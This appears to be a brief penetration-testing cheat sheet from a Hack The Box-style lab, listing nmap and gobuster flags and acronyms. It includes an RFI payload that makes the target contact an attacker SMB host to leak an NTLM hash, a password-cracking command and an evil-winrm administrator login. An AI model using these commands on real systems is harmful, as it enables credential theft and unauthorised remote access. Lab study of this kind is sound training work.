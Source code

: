 #nmap

```shell
-sC: Performs a script scan using the default set of scripts. It is equivalent to --
script=default. Some of the scripts in this category are considered intrusive and
should not be run against a target network without permission.

-sV: Enables version detection, which will detect what versions are running on what
port.h

-p- : This flag scans for all TCP ports ranging from 0-65535

--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher
```

#gobuster

```shell
dir : Uses directory/file enumeration mode.
--url : The target URL.
--wordlist : Path to the wordlist.
-x : File extension(s) to search for. (php/html)
```

# Responder:
```shell
sudo responder -I {network_interface} 
http://unika.htb/?page=//10.10.14.25/somefile
```

# John the riper:
```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

#evil-winrm
```shell
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

# Acronyms

WinRM, is a Windows-native built-in remote management protocol. port: 5985
NTLM: New Technology LAN Manager
LFI: Local File inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php 
RFI: Remote File Inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php
